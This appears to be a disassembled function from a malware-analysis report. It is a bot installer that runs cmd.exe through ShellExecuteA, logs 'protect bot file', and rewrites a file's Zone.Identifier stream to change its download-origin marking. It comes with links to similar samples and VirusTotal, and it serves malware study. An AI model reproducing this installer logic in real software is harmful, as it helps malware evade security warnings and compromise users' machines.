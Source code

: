 push eax
push str.cmd.exe
push ebx
push ebx
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
push ebx
push esi
lea ecx,[ebp-0x14c]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x168]
mov byte[ebp-4],0x18
call fcn.00401cd0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x460],esp
push 0xf
pop edi
mov dword[ecx+0x14],edi
mov dword[ecx+0x10],ebx
push str.Install___Successful_protect_bot_file
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
push 0x17
push str._ZoneTransfer__nZoneId2
lea ecx,[ebp-0x184]
mov dword[ebp-0x170],edi
mov dword[ebp-0x174],ebx
mov byte[ebp-0x184],bl
call fcn.00401ecb
lea eax,[ebp-0x14c]
push str.:Zone.Identifier
push eax
lea ecx,[ebp-0x130]
mov byte[ebp-4],0x1d
call fcn.00408cb4
pop ecx
pop ecx
lea ecx,[ebp-0x184]
mov edx,eax
mov byte[ebp-4],0x1e
call fcn.0040a3ca
push ebx
push esi
lea ecx,[ebp-0x14c]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x184]
mov byte[ebp-4],0x18
call fcn.00401cd0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x460],esp
mov dword[ecx+0x14],edi
mov dword[ecx+0x10],ebx
push str.Install___Rewriting_NTFS_flow
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
mov ecx,esp

[similar_1_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.004172d1@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0043883a@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.0040495d@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00420823@b3771987fba16f4fba07d1109ec72c76
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6